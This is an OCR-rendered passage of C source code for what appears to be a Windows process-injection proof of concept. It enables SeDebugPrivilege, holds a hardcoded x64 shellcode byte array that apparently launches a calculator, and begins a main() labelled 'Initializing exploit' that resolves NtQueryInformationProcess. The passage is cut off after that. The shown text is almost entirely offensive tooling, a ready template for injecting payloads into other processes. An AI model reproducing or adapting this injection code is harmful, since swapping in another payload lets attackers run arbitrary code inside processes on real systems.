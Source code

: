             }
        }
    }
    
    void EnableDebugPrivilege()
    {
        printf( COLOR_YELLOW_BOLD "[*] Enabling Debug Privilege...\n" COLOR_RESET );
        HANDLE hToken;
        TOKEN_PRIVILEGES tkp;
        if ( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) )
        {
            LookupPrivilegeValue( NULL, SE_DEBUG_NAME, &tkp.Privileges[ 0 ].Luid );
            tkp.PrivilegeCount = 1;
            tkp.Privileges[ 0 ].Attributes = SE_PRIVILEGE_ENABLED;
            AdjustTokenPrivileges( hToken, FALSE, &tkp, sizeof( tkp ), NULL, NULL );
            CloseHandle( hToken );
            // printf( COLOR_GREEN_BOLD "\t[+] Debug Privilege enabled.\n" COLOR_RESET );
        }
        else
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to enable Debug Privilege.\n" COLOR_RESET );
        }
    }


​    

    unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
    SIZE_T shellcodeSize = sizeof( payload ) - 1;
    SIZE_T bytesRead = 0;
    
    int main()
    {
        printf( COLOR_YELLOW_BOLD "[*] Initializing exploit...\n" COLOR_RESET );
    
        EnableDebugPrivilege();
        LoadNtQueryInformationProcess();
    
        if ( !NtQueryInformationProcess )
        {
            printf( COLOR_RED_BOLD "\t[-] NtQueryInformationProcess is NULL. Exiting...\n" COLOR_RESET );
            return -1;
        }
    